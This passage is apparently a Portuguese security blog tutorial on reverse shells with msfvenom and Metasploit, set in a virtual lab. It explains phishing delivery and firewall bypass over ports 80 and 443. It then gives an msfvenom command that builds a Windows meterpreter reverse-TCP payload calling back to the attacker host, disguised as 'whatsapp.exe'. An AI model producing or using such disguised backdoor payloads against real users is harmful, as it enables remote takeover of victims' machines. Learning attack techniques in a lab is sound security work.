 ```yaml
---
layout: default
title: Reverse Shell com MSFVenom e Metasploit
permalink: /artigos/02.md/
---
```


### Reverse Shell com MSFVenom e Metasploit

Nesse artigo vou falar sobre a técnica de conexão reversa, ou seja, a conexão iniciada a partir da máquina do cliente/vítima para o servidor do atacante. Os nomes mais comuns desse tipo de ataque são reverse-shell e backdoor. Essa técnica utiliza como vetor os ataques de phishing e engenharia social para induzir a vítima a clicar em um link e fazer o download do script que será utilizado para iniciar a conexão reversa.

Geralmente em um ambiente controlado, a arquitetura da rede inclui firewall no perímetro e muitas vezes firewall entres as redes LAN com filtros de segurança como IPS e Antimalware habilitado. O tráfego de entrada é bloqueado com exceção de algumas portas de serviços específicos expostos na internet. O reverse-shell nesse cenário consegue fazer o "bypass"  do firewall ao estabelecer uma conexão a partir da rede interna usando portas conhecidas como 80 - HTTP, 443 - HTTPS.

A figura abaixo ilustra como ocorre o bypass do firewall. Quando o script malicioso contendo o payload do shell-reverso é executado, a máquina da rede interna inicia a conexão com um servidor externo.

![topologia de rede](https://carineconstantino.github.io/cybersecurity/artigos/imagens/topologia_rede.jpg)

### Executando o shell-reverso

No ambiente de teste, eu utilizo duas máquinas virtualizadas com VirtualBox. A máquina Kali Linux com IP 10.0.2.15 é o servidor "atacante" e a máquina Metasploitable com IP 192.168.0.16 é o cliente/vítima que vai receber o arquivo executável com o payload de conexão. 

## Gerando o payload com o MSFVenom 

```msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.2.15 LPORT=80 -o /root/whatsapp.exe ```

![msfvenom_command](https://carineconstantino.github.io/cybersecurity/artigos/imagens/msfvenom_command.png)







